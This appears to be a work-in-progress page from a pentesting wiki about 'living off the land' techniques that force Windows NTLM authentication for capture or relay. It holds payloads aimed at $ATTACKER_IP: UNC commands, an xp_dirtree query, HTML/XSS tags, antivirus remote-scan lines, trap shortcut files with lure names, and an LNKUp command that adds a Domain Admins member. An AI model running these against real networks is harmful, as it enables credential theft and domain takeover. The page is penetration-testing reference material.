 # 🛠️ Living off the land

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

> In the physical world, “living off the land” simply means to survive only by the resources that you can harvest from the natural land. There may be multiple reasons for doing this — perhaps you want to get “off the grid,” or maybe you have something or someone to hide from. Or maybe you just like the challenge of being self-sufficient.&#x20;
>
> In the technology world, “living off the land” (LotL) refers to attacker behavior that uses tools or features that already exist in the target environment. ([source](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/))

There are multiple "living off the land" techniques that can be used to force authentications, to capture hashes, or to relay authentications. In order to use those techniques, testers need to have an initial access to "the land", i.e. the tools or features the technique uses.

## Practice

Those techniques will usually generate outgoing traffic on SMB or HTTP, hence requiring the attacker to set up an SMB or HTTP server to [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) the authentication (e.g. using tools like [Responder](https://github.com/SpiderLabs/Responder) (Python), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) or [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell)).

### Command execution

On Windows machines, cmdlets like `net` or `dir` can be used to make the machine access a remote resource, hence making it authenticate. This leads to an outgoing traffic using SMB.

```bash
dir \\$ATTACKER_IP\something
net use \\$ATTACKER_IP\something
```

The rpcping command can also be used to trigger an authentication. The perk of this technique is that the auth won't carry a signing negotiation flag, hence allowing for relays&#x20;

### MS-SQL queries execution

On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. This leads to an outgoing traffic using SMB.

```bash
EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\something',1,1
```

### File explorer

On Windows machines, the file explorer can be used to access remote resources like SMB shares by supplying its UNC path (i.e. `\\$ATTACKER_IP\something`) in the research bar. This leads to an outgoing traffic using SMB.

### Internet browser

Internet browsers can access HTTP servers by supplying their URL (i.e. `http://$IP:$PORT/something`) in the research bar. This technique is rarely used as it can pop up a prompt. This leads to an outgoing traffic using HTTP.

### HTML documents / XSS

HTML documents can be crafted (or injected with content when successfully exploiting an HTML injection attack such as an [Cross-Site Scripting](../../../web/inputs/xss-cross-site-scripting.md)) in way that could make browsers authenticate when accessing a remote resource. This leads to an outgoing traffic using SMB.

```markup
<script>
    language='javascript' src="\\$ATTACKER_IP\something\something.js"
</script>
```

```markup
<img src="file://$ATTACKER_IP/something/something.png"/>
```

### Web server file inclusion

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

### Windows Defender Remote Scanning

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\$ATTACKER_IP\file.txt
```

### Trend Micro Remote Scanning

```bash
C:\Program Files (x86)\Trend Micro\OfficeScan Clien\PccNt.exe \\$ATTACKER_IP\s\
```

### Shortcut files (scf, lnk, url)

SMB shares can be trapped with shortcut files that will automatically be handled by Windows' file explorer (e.g. a URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary). This leads to an outgoing traffic using SMB.

{% hint style="info" %}
Shortcut file names can be preprended with a `@` symbol to put them on top of the share, to make sure the file explorer has to parse it.
{% endhint %}

{% hint style="success" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) (Python) tool can be used to generate multiple file types at once (lnk, scf, url, docx, xslx, htm, xml, pdf, ...).

```bash
ntlm_theft.py --generate all --server $ATTACKER_IP --filename "@FILENAME"
```
{% endhint %}

{% tabs %}
{% tab title=".lnk" %}
An LNK shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

> Shortcuts with the .lnk extension have a lot of beneficial properties when it comes to stealth; [they are an exception](https://en.wikipedia.org/wiki/Shortcut\_\(computing\)#Microsoft\_Windows) from the Windows setting to show or hide file extensions. Even when “hide known file extensions” is disabled, explorer.exe will only show the name, allowing us to let it end in “.jpeg”. A major downside is that they only allow 1024 characters for the whole command they execute. ([source](https://hatching.io/blog/lnk-hta-polyglot/))

[LNKUp](https://github.com/Plazmaz/LNKUp) (Python) is a great tool to generate malicious LNK shortcuts. They can be set with a remote icon file to generate outgoing SMB traffic and authentications but can also be set to execute commands when opened (i.e. double-clicked).

```bash
# Simple SMB trap with remote icon file
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk'

# SMB trap + command execution
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk' --execute "net group 'Domain Admins' Pentester01 /domain /add"
```

{% hint style="info" %}
**Advanced traps**

* LNK files can be mixed with some VBA: [Pwned by Shortcut](https://medium.com/secjuice/pwned-by-a-shortcut-b21473970944)
* LNK files can be mixed with some HTA: [LNK HTA Polyglot](https://hatching.io/blog/lnk-hta-polyglot/)
{% endhint %}

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to automatically push LNK files to a writeable share.

```bash
# Creation & upload
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP"

# Cleanup
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP" CLEANUP=True
```
{% endtab %}

{% tab title=".scf" %}
An SCF shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.scf" %}
```bash
[Shell]
Command=2
IconFile=\\$ATTACKER_IP\something\something.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}
{% endtab %}

{% tab title=".url" %}
A URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.url" %}
```bash
[InternetShortcut]
URL=https://www.thehacker.recipes/
IconIndex=0
IconFile=\\$ATTACKER_IP\something\something.ico
```
{% endcode %}
{% endtab %}
{% endtabs %}

### PDF documents

[https://github.com/deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)

[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF)

### RTF documents

### MS Word documents

## Resources

{% embed url="https://hatching.io/blog/lnk-hta-polyglot/" %}

{% embed url="https://logrhythm.com/blog/what-are-living-off-the-land-attacks/" %}

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

[https://github.com/Gl3bGl4z/All\_NTLM\_leak](https://github.com/Gl3bGl4z/All\_NTLM\_leak)

[https://mgp25.com/research/infosec/Leaking-NTLM-hashes/](https://mgp25.com/research/infosec/Leaking-NTLM-hashes/)

[https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office)

[https://www.ired.team/offensive-security/initial-access](https://www.ired.team/offensive-security/initial-access)

[https://github.com/mdsecactivebreach/Farmer](https://github.com/mdsecactivebreach/Farmer)
